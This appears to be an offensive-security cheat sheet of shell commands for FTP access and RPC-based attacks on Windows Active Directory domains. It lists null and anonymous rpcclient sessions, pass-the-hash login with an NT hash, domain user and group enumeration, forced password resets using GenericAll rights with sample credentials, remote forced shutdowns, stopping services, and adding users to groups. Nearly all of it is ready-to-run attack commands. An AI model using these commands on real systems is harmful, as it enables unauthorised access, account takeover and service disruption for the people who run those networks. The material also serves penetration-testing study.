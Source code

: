 ```shell
ftp -A anonymous@192.168.10.1  # -A more stable
ftp > passive
ftp > binary
ftp > help
```
#### RPC
```shell
rpcinfo $IP

rpcclient -U "corp.com/user" dc-ip
rpcclient -N dc-ip # Null
rpcclient -U "" <IP> # Anonymous
rpcclient -U "guest&" <IP> # Public
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb --pw-nt-hash

rpc> lookupdomain corp.com
rpc> help

enumdomusers
enumdomgroups
lookupnames <username>
enumprivs
queryuser <user>
querygroup <group>
querydispinfo
srvinfo

chgpasswd
setuserinfo
# to change pass in case of GenericAll Permission
rpcclient> setuserinfo2 username 23 newpass

# KALI net command

# We can execute net commands remotely from kali using
# Enumerate users in a Windows/AD domain via RPC
net rpc user -U 'DOMAIN/username%password' -S DC_IP
# Reset a user's password if you have proper rights (e.g., GenericAll)
net rpc password "TargetUser" "newP@ssword2022" -U "nagoya-industries.com"/"controlleduser"%"Nagoya2023" -S $IP1            
# Shut down or reboot a remote machine via RPC
net rpc shutdown -S TargetIP -U 'DOMAIN/admin%Pass'   # clean shutdown
net rpc shutdown -r -f -S TargetIP -U 'DOMAIN/admin%Pass'  # forced reboot
# Manage remote Windows services
net rpc service stop ServiceName -S TargetIP -U 'DOMAIN/admin%Pass'
net rpc service start ServiceName -S TargetIP -U 'DOMAIN/admin%Pass'


net service list                                # List services
# User & group management
net user add <username> <options>               # Add local user
net user delete <username>
net group addmember <group> <user>
net group removemember <group> <user>

```
